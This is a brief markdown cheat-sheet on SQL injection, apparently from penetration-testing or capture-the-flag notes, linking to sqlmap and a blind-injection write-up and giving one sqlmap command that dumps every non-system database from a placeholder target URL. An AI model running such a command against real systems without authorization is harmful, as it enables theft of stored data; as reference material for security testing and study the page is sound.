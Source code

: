 # SQL Injection

## Links

- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [SocketSQL](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

## Dump all databases

```sh
sqlmap --dump-all --exclude-sysdbs -u http://URL/?name=1
```
